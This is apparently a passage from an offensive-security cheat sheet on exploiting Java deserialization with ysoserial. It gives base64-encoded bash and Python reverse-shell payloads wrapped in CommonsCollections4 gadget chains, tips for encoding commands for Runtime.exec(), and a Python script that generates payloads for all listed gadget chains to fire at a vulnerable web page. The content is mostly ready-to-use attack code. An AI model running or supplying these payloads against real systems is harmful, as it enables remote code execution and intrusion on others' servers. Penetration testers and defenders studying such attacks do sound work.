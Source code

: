 ```bash
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```

When creating a payload for **java.lang.Runtime.exec()** you **cannot use special characters** like ">" or "|" to redirect the output of an execution, "$()" to execute commands or even **pass arguments** to a command separated by **spaces** (you can do `echo -n "hello world"` but you can't do `python2 -c 'print "Hello world"'`). In order to encode correctly the payload you could [use this webpage](http://www.jackson-t.ca/runtime-exec-payloads.html).

Feel free to use the next script to create **all the possible code execution** payloads for Windows and Linux and then test them on the vulnerable web page:

```python
import os
import base64

# You may need to update the payloads
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'Vaadin1', 'Wicket1']
def generate(name, cmd):
    for payload in payloads:
        final = cmd.replace('REPLACE', payload)
        print 'Generating ' + payload + ' for ' + name + '...'
        command = os.popen('java -jar ysoserial.jar ' + payload + ' "' + final + '"')
        result = command.read()
        command.close()
        encoded = base64.b64encode(result)
        if encoded != "":
            open(name + '_intruder.txt', 'a').write(encoded + '\n')

generate('Windows', 'ping -n 1 win.REPLACE.server.local')
generate('Linux', 'ping -c 1 nix.REPLACE.server.local')
```

<br>

### serialkillerbypassgadgets
